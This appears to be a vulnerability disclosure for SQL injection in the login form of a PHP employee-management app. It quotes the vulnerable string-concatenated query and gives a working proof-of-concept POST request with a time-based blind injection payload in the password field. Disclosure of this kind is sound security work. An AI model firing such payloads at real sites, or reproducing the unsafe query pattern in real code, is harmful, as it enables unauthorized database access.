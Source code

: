 ### Vulnerability file address

`Account/Login.php` from line 14,The `$password` parameter is controllable and the `$password` is not protected from sql injection, line 18 ` $sql = "SELECT * FROM tblemployee WHERE email='" .$email. "' and password = '".$password."'  and status = '".$status."'";` ,line 19 `$result = mysqli_query($conn,$sql);`,line 19 performs a SQL query, causing SQL injection

```php
<?php
include('../inc/topbar.php'); 


if(isset($_POST['btnlogin'])){


//Get Date
date_default_timezone_set('Africa/Lagos');
$current_date = date('Y-m-d h:i:s');


$email = $_POST['txtemail'];
$password = $_POST['txtpassword'];
$status = '1';


 $sql = "SELECT * FROM tblemployee WHERE email='" .$email. "' and password = '".$password."'  and status = '".$status."'";
  $result = mysqli_query($conn, $sql);
```

### POC

```http
POST /CMS/php/employee_akpoly/Account/Login.php HTTP/1.1
Host: 10.0.0.20:82
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 50
Origin: http://10.0.0.20:82
Connection: close
Referer: http://10.0.0.20:82/CMS/php/employee_akpoly/Account/Login.php
Cookie: PHPSESSID=81293i00fqra5g881e77or40t2
Upgrade-Insecure-Requests: 1

txtemail=1@qq.com&txtpassword=1' AND (SELECT 4536 FROM (SELECT(SLEEP(5)))fZVr)-- ndup&btnlogin=
```

### Attack results pictures

![image-20250128230059878](https://raw.githubusercontent.com/nixuchuan/imgs/main/202501282300923.png)
